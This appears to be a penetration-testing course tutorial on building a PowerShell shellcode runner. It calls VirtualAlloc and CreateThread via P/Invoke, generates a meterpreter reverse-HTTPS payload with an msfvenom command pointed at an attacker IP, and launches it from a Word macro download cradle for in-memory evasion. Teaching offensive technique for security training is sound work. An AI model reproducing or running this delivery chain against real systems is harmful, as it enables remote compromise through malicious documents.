:orphan:
(powershell-shellcode-part-1)=

# Powershell Shellcoding: Part 1

## Calling Win32 APIs from Powershell

PowerShell cannot interface natively with the Win32 APIs, but the `.NET framework` allows us to use C# in our PowerShell session.
Using the `DllImportAttribute` class, we can import and declare Win32 APIs in C#.
This permits the invocation of functions within unmanaged dynamic link libraries.

We must convert C data types to C# data types. Using *Microsoft's Platform Invocation Services*, sometimes known as *P/Invoke*, we can simply accomplish this. The PInvoke APIs are located within the `System` and `System.Runtime` assemblies. `InteropServices` namespaces must be imported using the term utilizing. The easiest method to get started with `P/Invoke` is via the website [www.pinvoke.net](https://www.pinvoke.net), which details translations of the most prevalent Win32 APIs. Consider the syntax of `MessageBox` from `User32.dll`, as seen below:     


```cpp
int MessageBox(
    HWND hWnd, 
    LPCTSTR lpText, 
    LPCTSTR lpCaption, 
    UINT uType
);
```

Let's create a C# method signature from this. A method signature is a method's unique identifier for the C# compiler. The signature comprises the method's name, the type and kind (value, reference, or output) of each formal argument, and the return type.

To "translate" this, we can either search the [www.pinvoke.net](https://pinvoke.net) website or simply Google for pinvoke User32 messagebox. The first hit leads us to the C# signature for the call:    

     

In order to use this, we will need to add some code to import the `System` and `System.Runtime.InteropServices` namespaces that include P/Invoke APIs.    

Then, we'll create a C# class (`User32`) that uses `DllImport` to import the `MessageBox` signature. This class permits interaction with the Windows API.      

      

Now that we have a C# import and a P/Invoke translation, we must invoke it using the `Add-Type` keyword in PowerShell. By specifying `Add-Type` in PowerShell, the `.NET framework` will be compelled to compile and build an object containing the structures, values, functions, or code included within the `Add-Type` line.     

Put simply, `Add-Type` uses the `.NET framework` to compile the C# code containing Win32 API declarations.    

The complete `Add-Type` statement is:    


First, keep in mind that PowerShell employs either a newline or a semicolon to indicate the end of a sentence. The `@` keyword declares *Here-Strings*, which are a straightforward method to declare text blocks.    

In summary, the code first creates a `$User32` variable and sets it to a block of text. Inside that block of text, we set the program to use `System` and `System.Runtime.InteropServices`. Then we import the `MessageBox` API from the `user32` dll, and finally we use `Add-Type` to compile the C# code contained in the `$User32` variable.    

Our code is almost finished. We must now just run the API itself. This is possible through the `User32` .NET object created as shown below. Here, we instruct the application to invoke `MessageBox` and display a dialog box with the text *"This is an alert"*:      

```csharp
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

At this point, our code looks like this:     

     

This code should invoke `MessageBox` from PowerShell. To simulate and test this scenario accurately, we must utilize the `32-bit` version of PowerShell ISE accessible at:     

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe
```

When the code is executed, a message box is displayed:    

    

This illustrates that while PowerShell cannot utilize Win32 APIs natively, `Add-Type` can invoke them via *P/Invoke*. 

## Shellcode runner in Powershell

The concept of running shellcode on PowerShell is not that complicated. As classical shellcode running technique, we already know the three steps to perform. First, we allocate memory space for executable using `VirtualAlloc`. Next, our shellcode is copied to the newly created memory space. Finally, create a thread using `CreateThread`.    

In the C-language or in the VBA code, we can use `RtlMoveMemory` to copy the shellcode, however, we may use the `.NET Copy` function from the `System.Runtime.InteropServices.Marshal` namespace within PowerShell.
This enables the copying of data from a managed array to a non-managed memory reference.    

We will use *P/Invoke* ( from a search on [www.pinvoke.net](https://www.pinvoke.net) ) to translate the `VirtualAlloc` and `CreateThread` parameters, resulting in the following `Add-Type` statement:     

      

Note that we assigned a text block to the `$Kernel32` variable using *Here-Strings*. We also added import statements to the `public Kernel32` class so we may compile and refer to it in the future.    

Next we must supply the required shellcode, which we'll again generate with `msfvenom`. This time, we'll use the `ps1` output format:    

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

    

Now that the shellcode has been constructed, the `$buf` variable may be copied and added to our code. In addition, we will begin configuring the API parameters as seen below.     

     

We invoked the imported `VirtualAlloc` call with the same arguments as before. These include a `0` to let the API choose the allocation address, the detected size of the shellcode, and the hexadecimal numbers `0x3000` and `0x40` to set up memory allocation and protections correctly. We used the `.NET Copy` method to copy the shellcode, supplying the managed shellcode array, an offset of `0` indicating the start of the buffer, the unmanaged buffer address, and the shellcode
size. Finally, we called `CreateThread`, supplying the starting address. If we run this code from PowerShell ISE, we get a reverse shell. Nice.   

   

Now let's say we need to initiate this from a Word macro. However, we will not embed the PowerShell code directly in VBA. Instead, we will develop a cradle that will run and download our code into memory. Below is the code for the download cradle:     



First, we declared a string variable holding the PowerShell invocation of the `Net.WebClient` class's download cradle. Once the PowerShell script has been downloaded into memory as a string, Invoke-Expression is used to run it (IEX). This complete execution of code is initiated by the `Shell` command.    

Notice that the download cradle references the `run.ps1` in the web root of our Kali machine. To execute our code, we first copy our PowerShell shellcode runner into the run.ps1 file on our Kali Apache or Simple Python web server.    

Next we open Microsoft Word and insert the VBA code into our macro and execute it.    

There is a caveat. However, we don't catch a shell in our `multi/handler`. Let's try to troubleshoot.    

On the Windows side, if we are quick and utilize *Process Explorer*, we may detect that a PowerShell process is being launched and subsequently terminated.    

The explanation behind this is clear. Our shell finishes when the parent `PowerShell` process ends. Our shell is effectively ended before to its initiation.    

To solve this, we must instruct PowerShell to delay termination until our shell fully executes. We'll
use the Win32 `WaitForSingleObject` API to pause the script and allow Meterpreter to finish.   

We'll update our shellcode runner PowerShell script to import `WaitForSingleObject` using *P/Invoke* and `Add-Type` and invoke it as shown:     

    

Let's talk about this addition. `CreateThread` provides a handle to the newly formed thread when invoked. We passed this handle along with the time to wait for the thread to complete to `WaitForSingleObject`. In this instance, we've supplied `0xFFFFFFFF`, which instructs the application to wait indefinitely or until we quit the shell. Because PowerShell only supports signed numbers, we have specifically executed a type cast on this value using the `[unit32] static .NET` type to convert it to an unsigned integer.     

Again, we used *Here-Strings* to assign a text block to the `$Kernel32` variable. In our class, three Windows APIs were imported. Then, using `Add-Type`, we compiled the `public Kernel32 class` that was invoked by the APIs. This modification should prevent PowerShell from terminating prematurely. The VBA code may now be re-executed after updating the PowerShell shellcode runner located on our Kali Linux web server. This should result in a Meterpreter shell in reverse.
Quite nice.     

    

We can also observe the PowerShell process running as a child process of Word:    

    

In this step, we constructed a PowerShell shellcode runner. We downloaded and executed the script from our Kali web server using the VBA code in our Word macro.
This essentially removed our payload from the Word document, making it look as though the code is running entirely in memory, which should help with evasion. 

## References

[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)     
[CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
[WaitForSIngleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)     

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::